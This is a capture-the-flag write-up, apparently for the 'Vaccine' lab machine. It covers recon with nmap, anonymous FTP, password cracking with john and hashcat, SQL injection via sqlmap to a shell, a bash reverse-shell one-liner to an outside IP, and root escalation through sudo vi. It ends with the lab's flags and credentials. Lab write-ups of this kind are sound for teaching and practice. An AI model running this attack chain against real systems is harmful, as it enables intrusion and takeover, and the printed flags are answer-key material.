 ```yaml
---
layout: default
title: Vaccine
---
```


### Recon

first we starts with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

As we can see, there are 3 open ports, port `21` for ftp, port `22` for ssh, and port `80` for http.
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.63
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Login annonymosuly to ftp
We can see we can login anonymously to ftp, and download the `backup.zip` from there, using the `get` command.
```bash
ftp anonymous@$target
```

![download backup.zip](image-1.png)

### Extract files from backup.zip
When we try to unzip `backup.zip` using the command `unzip backup.zip`, we can see it asks for a password. 
Let's try to crack it using *john the ripper*.

First, we need to transfroms it from `zip` to `hash`, using the command:
```bash
zip2john backup.zip > hashes
```
Then, we can crack it using john:
```bash
john hashes
```
At the end, we can reveal the password using the flag `--show`, like in *hashcat*.
The password is `741852963`.

![get password for zip](image-2.png)

### Crack the admin password for the login portal

Now, after we unzip the password protected zip, we can see there are two files, `index.php` and `styles.css`. 
When we read the `index.php`, we can see these lines:

![read index.php](image-3.png)
So, the username for the login portal on the webserver is `admin`, and the md5 hash of the password is `2cb42f8734ea607eefed3b70af13bbd3`.

We can use `hashcat` to crack the password, the `-m 0` flag is to specify the hash type, which is md5, and the `-a 0` is to specify the attack type, which is dictionary attack.
```bash
hashcat -a 0 -m 0 2cb42f8734ea607eefed3b70af13bbd3 -O  /usr/share/wordlists/rockyou.txt
``` 
And we get the password:
```
2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

So, let's login:
![logged in](image-4.png)

### Using Sql Injection to get shell

When we give the search this value `'` we get error, this line:
```
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```
using `sqlmap` we can see it is vulnerable to sql injection. We can use the `--os-shell` flag to get shell over the machine, this is the command, we use `--batch` to avoid all the questions. Don't forget to supply your cookie, you need to be authenticated as an admin.
```bash
sqlmap -u http://$target/dashboard.php?search=* --cookie="PHPSESSID=rofujd2i9ic630lkm78a1g3llf" --batch --os-shell
```
Okay, first we want to achieve the reverse shell, using this command:
```bash
bash -c "/bin/sh -i >& /dev/tcp/10.10.14.63/770 0>&1"
```

Then, we'll paste those commands in the shell we got:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Search for `user.txt` using this command:
```bash
find / -name "user.txt" 2>/dev/null
```

and reading the user flag from `/var/lib/postgresql/user.txt` 
```bash
postgres@vaccine:~$ find / -name "user.txt" 2>/dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:~$ cat /var/lib/postgresql/user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

We remember there is a webserver on port `80`, so we can go to `/var/www/html` and view the content the `.php` files, maybe we'll find some credentials:
```bash
postgres@vaccine:/var/www/html$ ls
bg.png  dashboard.css  dashboard.js  dashboard.php  index.php  license.txt  style.css
postgres@vaccine:/var/www/html$ cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>

...

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

```
alright, the password for the user `postgres` is `P@s5w0rd!`, we can use it to connect via `ssh`, as we saw in the beginning that port `22` is open:
```bash
ssh postgres@$target
```

### Escalate privilage

After connecting via `ssh`, we start looking for PE. First, we'll check for commands we can run as an root, using:
```
sudo -l
```
![sudo -l](image-5.png)

As we can see, we can execute only one command as root:
```bash
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Okay, so let's run this command:
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can go to GTFobins, to this link https://gtfobins.github.io/gtfobins/vi/#sudo, and see this:
```
It can be used to break out from restricted environments by spawning an interactive system shell.
```

```
:set shell=/bin/sh
:shell
```

Let's execute those commands, inside the `vi`, 
we managed to spawn a shell as root, :) 

``` 
# id
uid=0(root) gid=0(root) groups=0(root)
# find / -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
# 
```

![root flag](image-6.png)

**User Flag:*****`ec9b13ca4d6229cd5cc1e09980965bf7`***

**Root Flag:*****`dd6e058e814260bc70e9bbdef2715849`***

